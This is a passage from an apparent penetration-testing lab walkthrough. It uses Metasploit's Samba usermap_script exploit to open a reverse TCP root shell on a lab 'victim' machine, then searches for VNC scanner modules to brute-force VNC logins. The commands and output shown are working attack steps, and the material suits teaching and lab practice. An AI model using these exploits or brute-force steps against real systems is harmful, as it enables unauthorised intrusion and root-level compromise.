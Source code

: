 ```
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.74.129
RHOSTS => 192.168.74.129
```

Now let’s exploit:

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 192.168.74.128:4444 
[*] Command shell session 3 opened (192.168.74.128:4444 -> 192.168.74.129:45078) at 2021-06-29 06:48:33 -0400

whoami
root
```

As you can see the exploit sets up a reverse TCP handler to accept the incoming connection from the Victim machine. Then the exploit completes and opens a session. We can also see that the access level is root. Now let’s move on to another exploit keeping this session in the background.

#### Exploiting VNC <a href="#post-3536-_heading-h.2grqrue" id="post-3536-_heading-h.2grqrue"></a>

Now let’s try to exploit the VNC service running on our victim machine. If you search in Metasploit database, you will find no matching exploit for this one. This means you have to think of some other ways to get into this service. Let’s try to brute force the VNC login. We’ll be using the auxiliary scanner for `vnc login`:

```
msf6 exploit(multi/samba/usermap_script) > search scanner vnc
```

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ‐‐‐‐                                      ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐    ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0  auxiliary/scanner/vnc/ard_root_pw                          normal  No     Apple Remote Desktop Root Vulnerability
   1  auxiliary/scanner/http/thinvnc_traversal  2019-10-16       normal  No     ThinVNC Directory Traversal
   2  auxiliary/scanner/vnc/vnc_none_auth                        normal  No     VNC Authentication None Detection
   3  auxiliary/scanner/vnc/vnc_login                            normal  No     VNC Authentication Scanner


Interact with a module by name or index. For example info 3, use 3 or use auxiliary/scanner/vnc/vnc_login
```

We’ll be needing the **VNC Authentication Scanner (3)**. Let’s select it:

